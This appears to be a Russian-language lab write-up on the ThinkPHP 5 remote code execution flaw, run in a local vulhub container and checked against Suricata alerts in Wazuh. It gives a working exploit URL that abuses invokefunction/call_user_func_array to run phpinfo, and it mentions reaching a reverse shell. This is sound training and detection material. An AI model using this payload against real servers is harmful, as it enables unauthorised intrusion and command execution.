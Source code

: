 # 5-rce

### Материалы:

* [https://www.programmersought.com/article/91363936232/](https://www.programmersought.com/article/91363936232/)

ThinkPHP — чрезвычайно широко используемая среда PHP разработки в Китае. В пятой версии ThinkPHP, поскольку платформа неправильно обрабатывает имя контроллера, она может выполнить любой метод, если на веб-сайте не включена обязательная маршрутизация (которая используется по умолчанию), что приводит к уязвимости RCE.

### Эксплуатация уязвимости

> Контейнер с уязвимой средой находится в директории /home/user/Hackathon/vulhub-master/thinkphp/5-rce

Для запуска уязвимой среды выполните команду:

```
docker compose up -d
```

После запуска по адресу http://ваш-ip:8080 будет доступна стандартна страница ThinkPHP

<figure><img src="../../.gitbook/assets/thinkphp-5-rce(1).png" alt=""><figcaption></figcaption></figure>

Посетите следующую страницу для реализации уязвимости и вывода страницы phpinfo

```
http://ваш-ip:8080/index.php?s=/Index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=-1
```

<figure><img src="../../.gitbook/assets/thinkphp-5-rce(2).png" alt=""><figcaption></figcaption></figure>

Также вы можете выполнять произвольные команды на целевой машине вплоть до получения обратной оболочки уязвимой машины:

<figure><img src="../../.gitbook/assets/thinkphp-5-rce(3).png" alt=""><figcaption></figcaption></figure>

В Wazuh (https://ваш-ip/app/wazuh) мы можем увидеть соответствующие алерты от IDS Suricata об эксплуатации данной уязвимости.

<figure><img src="../../.gitbook/assets/thinkphp-5-rce(4) (2).png" alt=""><figcaption></figcaption></figure>
